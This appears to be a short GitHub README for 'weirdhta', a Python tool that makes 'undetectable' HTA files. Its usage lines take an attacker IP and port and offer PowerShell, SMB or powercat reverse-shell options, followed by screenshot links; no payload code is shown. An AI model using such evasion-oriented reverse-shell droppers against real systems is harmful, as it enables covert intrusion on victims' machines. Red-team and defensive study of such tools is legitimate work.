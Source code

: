 # weirdhta
A Python-based basic tool for creating undetectable hta file.


```
python3 weirdhta.py 10.10.10.10 4444
python3 weirdhta.py 10.10.10.10 4444 --smb (without powershell payload, it will use smb)
python3 weirdhta.py 10.10.10.10 4444 --nc (for powercat)
```

### Screenshots
Running via browser:


![Script Image](https://i.imgur.com/mb8xvCq.png)

![Script Image](https://i.imgur.com/LCo3Ivb.png)

![Script Image](https://i.imgur.com/5DtxvKi.png)


Running via cli:

![](https://i.imgur.com/xYfALz2.gif)

smb:

![Script Image](https://i.imgur.com/UVgKzpo.png)
![](https://i.imgur.com/4orNAgX.gif)
